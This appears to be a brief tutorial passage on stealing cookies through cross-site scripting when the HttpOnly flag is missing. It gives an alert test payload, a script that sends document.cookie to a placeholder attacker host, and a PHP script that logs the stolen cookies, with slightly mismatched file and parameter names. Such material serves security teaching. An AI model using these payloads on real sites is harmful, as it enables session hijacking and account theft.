 * JavaScript can steal cookies if they do not have the **HttpOnly flag** enabled; this means that an XSS attack can
be used to steal the cookies.

`<script>alert(document.cookie)</script>`

with the following code,you can send cookies content to an attacker-controlled site.

```
<script>
var i = new Image();
i.src = "http://ip_del_atacante/get.php?cookies="+document.cookie;
</script>
```
The scripts generate an image object and points its `src` to script on the attacker's server(attacker.site)

The `log.php` script saves the cookie in a text file on the attacker.site
```
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename,'a');
$cookie=$_GET['q'];
fwrite($fp,$cookie);
fclose($fp);
?>
```
